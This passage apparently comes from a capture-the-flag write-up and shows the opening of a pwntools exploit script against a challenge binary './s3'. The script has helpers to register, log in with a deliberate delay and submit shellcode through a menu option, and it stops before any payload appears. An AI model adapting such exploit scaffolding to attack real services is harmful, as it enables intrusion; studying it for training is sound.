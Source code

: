 The attack can be implemented as following:

```py
#!/usr/bin/env python3

from pwn import *
from hashlib import sha256
from base64 import b64encode
import time
import os

exe = ELF("./s3")

context.binary = exe
context.log_level = "debug"
context.terminal = ["kitty"]
io = None


def conn(*a, **kw):
    if args.LOCAL:
        return process([exe.path], **kw)
    else:
        return gdb.debug([exe.path], gdbscript="", **kw)


io = conn(level="debug")


def register(pwd: bytes) -> int:
    global io
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"password: ", pwd)
    io.recvuntil(b"Your user's ID is: ")
    return int(io.recvline()[:-1])


def login(idx: int, pwd: bytes, sleep=0):
    global io
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"ID: ", str(idx).encode())

    time.sleep(sleep)
    io.sendlineafter(b"password: ", pwd)


def run_shellcode(shellcode: bytes):
    io.sendlineafter(b"> ", b"5")
    io.sendlineafter(b"shellcode!\n", shellcode)


def logout():
    global io
    io.sendlineafter(b"> ", b"6")


def main():
    global io

    to_pwn = 0

    ## good luck pwning :)
    mypwd = os.urandom(16).hex().encode()  ## random password
    idx = register(mypwd)  ## register our user
```
